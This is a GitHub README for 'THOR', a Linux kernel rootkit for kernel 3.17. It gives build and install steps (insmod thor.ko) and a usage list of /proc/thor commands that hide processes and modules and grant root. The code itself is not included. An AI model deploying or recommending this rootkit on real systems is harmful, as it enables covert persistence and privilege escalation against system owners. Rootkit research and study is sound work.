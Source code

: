 # THOR

The Horrific Omnipotent Rootkit - or something like that, targeted at kernel
3.17 (archlinux LTS at the time of writing).

## Requirements

Apart from the linux kernel headers, the linux source code is required in order
to build this rootkit since unexported code is used.

Just make sure `/usr/src/linux` points to the linux source directory of the
target kernel. Or you could simply change the `Makefile`.

## How to Setup (Arch)

    # pacman -S abs linux-headers
    # abs
    # cd /var/abs/core/linux
    # makepkg -o --asroot
    # ln -s /var/abs/core/linux/src/linux-3.17 /usr/src/linux

## How to Build

    $ cd /path/to/thor
    $ make
    # insmod thor.ko

## How to Use

    usage:
       echo hp PID    > /proc/thor (hides process PID)
       echo up PID    > /proc/thor (unhides process PID)
       echo upa       > /proc/thor (unhide all PIDs)
       echo hm MODULE > /proc/thor (hide module)
       echo um MODULE > /proc/thor (unhide module)
       echo uma       > /proc/thor (unhide all modules)
       echo root      > /proc/thor (gain root privileges)

## Authors

- Franz-Josef Haider
- Alex Hirsch

## Acknowledgement

- [Arkadiusz "ivyl" Hiler](https://github.com/ivyl/rootkit)
- [Michael "mncoppola" Coppola](https://github.com/mncoppola/suterusu)
- [Morgan "mrrrgn" Phillips](https://github.com/mrrrgn/simple-rootkit)
- [XieRan](https://github.com/nareix/tls-example)
- [uzyszkodnik](https://github.com/uzyszkodnik/rootkit)
